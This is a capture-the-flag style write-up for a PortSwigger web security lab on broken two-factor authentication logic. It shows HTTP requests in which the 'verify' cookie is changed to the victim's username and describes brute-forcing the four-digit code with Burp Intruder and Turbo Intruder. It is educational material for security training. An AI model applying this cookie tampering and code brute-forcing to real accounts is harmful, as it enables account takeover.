










# Lab: 2FA broken logic
This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

* Your credentials: `wiener:peter`
* Victim's username: `carlos`

You also have access to the email server to receive your 2FA verification code.

## Solution
Like in the [lab before](./2FA_simple_bypass.md), we have again a simple blog with the ability to login. The login is additionally protected by a verification code sent via email.

If we log in normally, we send the following request:



```
POST /login HTTP/2
Host: 0a07002b033d5f398178435a003200b4.web-security-academy.net
Cookie: session=hmXyDwXOWMV6m8KhjPsq0VRqKEu7kbsB
Origin: https://0a07002b033d5f398178435a003200b4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Referer: https://0a07002b033d5f398178435a003200b4.web-security-academy.net/login
[...]

username=wiener&password=peter
```
With the login, a verification code will be generated and send to our email address.

As response, we got authenticated (first step) and the `verify` cookie is set with our username:
```
HTTP/2 302 Found
Location: /login2
Set-Cookie: verify=wiener; HttpOnly
Set-Cookie: session=FwFGuDkuUi72pYqMZK3GpsmrJbxuQro7; Secure; HttpOnly; SameSite=None
[...]
```

If we enter the 2FA code now, the cookie will be used to verify the user account and if the code is correct we will be logged in. See the request:



```
POST /login2 HTTP/2
Host: 0a07002b033d5f398178435a003200b4.web-security-academy.net
Cookie: verify=wiener; session=FwFGuDkuUi72pYqMZK3GpsmrJbxuQro7
Origin: https://0a07002b033d5f398178435a003200b4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Referer: https://0a07002b033d5f398178435a003200b4.web-security-academy.net/login2
[...]

mfa-code=0341
```

Before we enter the `mfa-code`, we can also change the username in the `verify` cookie. The flaw is, that only this cookie is used for the verification of the first step. So if change the username in the cookie to `carlos`, we don't need the password of the user to be authenticated as him. But we still need the 2FA code. Since it's only four digits long, we can brute force it. To do so, we can use Burp Intruder.

But before we can try to brute force it, we have to generate a first token for the user `carlos`. We can achieve that if we intercept the GET request for the input of the verification code and change the value of the `verify` cookie:



After that, a code is sent to the user. Now we can try to brute force it via the POST request.

### Burp Intruder
We change the request to the following (also mind the payload position):



```
POST /login2 HTTP/2
Host: 0a07002b033d5f398178435a003200b4.web-security-academy.net
Cookie: verify=carlos; session=jFw7Oz68qWC5bQdDQL3bEnrPls714ux3
[...]

mfa-code=§0000§
```

The payload itself can be configured like this:



If we enter the verification code correctly, we get an 302 redirect as response to our POST request. We can verify that with the `wiener` user:



So all we have to do now, is to look out for a 302 response while brute forcing the digit code.

### Turbo Intruder
Since we have to send 9999 request, the Burp Community edition will take a long time, because of its throttling. One faster option is to use the Burp plugin [Turbo Intruder](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack).

To use this plugin, we can send the request to the extension (like we would send it to the Intruder):



In here we have similar options like in the Intruder. But to generate a payload, we use Python code. A possible payload can look like this:



The `%s` is the placeholder for the payload in the request. The important line of the Python code are 10-12. This generates the numbers 0000-9999 and queues them into the request. Also note the `@FilterStatus(200)` to show no responses with a 200 code.

If we hit "Attack" to run the brute force, we can find a valid verification code:



We can now send this request to the browser, and we got logged in:


